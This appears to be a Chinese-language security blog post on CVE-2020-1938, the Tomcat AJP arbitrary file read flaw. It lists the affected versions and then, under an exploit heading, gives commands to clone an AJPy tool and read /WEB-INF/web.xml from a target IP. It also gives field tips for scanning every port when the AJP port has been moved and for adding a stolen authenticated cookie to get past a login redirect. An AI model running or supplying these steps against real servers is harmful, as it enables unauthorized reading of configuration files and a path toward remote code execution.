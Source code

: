 ```yaml
---
title: CVE-2020-1938 Tomcat任意文件下载漏洞
tags: 
- CVE
- 漏洞
categories:
- 网络安全
top_img: /img/yangb.png
cover: /img/CVE.png
date: 2020-03-09
id: CVE-2020-1938
---
```


## 漏洞说明
该漏洞是由于Tomcat AJP协议存在缺陷而导致，攻击者利用该漏洞可通过构造特定参数，读取服务器webapp下的任意文件。若目标服务器同时存在文件上传功能，攻击者可进一步实现远程代码执行。目前，厂商已发布新版本完成漏洞修复。

受影响版本

* Apache Tomcat 6  
* Apache Tomcat 7 < 7.0.100  
* Apache Tomcat 8 < 8.5.51
* Apache Tomcat 9 < 9.0.31

不受影响版本

* Apache Tomcat = 7.0.100
* Apache Tomcat = 8.5.51
* Apache Tomcat = 9.0.31

## Exp 漏洞利用
```sh
$ git clone git@github.com:yangb92/AJPy.git
$ cd AJPy
$ python tomcat.py read_file --webapp=manager /WEB-INF/web.xml 172.17.0.2
```
> 实战经验: 
>1. 如果目标默认的AJP端口改变, 扫描所有开放端口，逐个进行测试。改变默认端口参数： --port=8812
>2. 如果目标出现302授权跳转，需要在tomcat.py/perform_request函数提供默认参数headers={"cookie":"xxx"},添加已认证的cookie
